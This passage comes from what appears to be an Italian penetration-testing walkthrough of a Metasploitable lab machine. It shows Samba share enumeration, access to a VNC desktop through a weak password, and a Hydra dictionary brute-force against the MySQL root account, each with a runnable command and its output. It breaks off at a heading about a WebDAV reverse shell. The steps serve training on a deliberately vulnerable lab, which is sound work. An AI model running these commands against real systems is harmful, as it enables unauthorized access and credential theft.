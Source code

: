 ```
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk
        IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
...
```

Queste condivisioni possono essere esplorate o usate per caricare file.

## Exploiting VNC con Password Debole 🖥️

Il server VNC utilizza una password debole o predefinita.

1. Connettiti usando un client VNC:

```bash
xtightvncviewer 172.16.49.231:5900
```

2. Inserisci la password conosciuta per accedere al desktop:

```
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password:
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
...
```

## Brute-Forcing della Password MySQL 🔑

Il servizio MySQL ha una password root debole, che può essere scoperta con un attacco brute-force.

1. Usa Hydra per un attacco a dizionario:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://172.16.49.231
```

2. Hydra troverà la password:

```
[3306][mysql] host: 172.16.49.231   login: root
1 of 1 target successfully completed, 1 valid password found
```

Nota: La password specifica non è mostrata qui, ma verrebbe visualizzata nell'output.

## Exploiting WebDAV per Caricare una Reverse Shell 🌐
